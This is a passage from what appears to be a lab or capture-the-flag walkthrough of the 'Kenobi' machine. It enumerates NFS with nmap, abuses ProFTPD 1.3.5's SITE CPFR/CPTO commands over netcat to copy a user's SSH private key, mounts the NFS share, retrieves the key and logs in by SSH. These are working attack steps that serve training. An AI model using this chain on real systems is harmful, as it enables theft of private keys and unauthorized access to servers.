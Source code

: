 

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that  converts remote procedure call (RPC) program number into universal  addresses. When an RPC service is started, it tells rpcbind the address  at which it is listening and the RPC program number its prepared to  serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

**`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.213.125`**

# Gain initial access with ProFtpd

```shell
root@kali:~# nc 10.10.68.87 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.68.87]
$ SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
$ SITE CPTO /var/tmp/id_rsa
250 Copy successful
```



```shell
root@kali:~# mkdir /mnt/kenobiNFS
root@kali:~# mount 10.10.68.87:/var /mnt/kenobiNFS
root@kali:~# cd /mnt/kenobiNFS/
root@kali:/mnt/kenobiNFS# ls -la
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 Apr  7 12:00 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Apr  7 11:59 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
root@kali:/mnt/kenobiNFS#
```

```shell

root@kali:~# cp /mnt/kenobiNFS/tmp/id_rsa .
root@kali:~# chmod 600 id_rsa 
root@kali:~# ssh -i id_rsa kenobi@10.10.68.87
The authenticity of host '10.10.68.87 (10.10.68.87)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.68.87' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.

```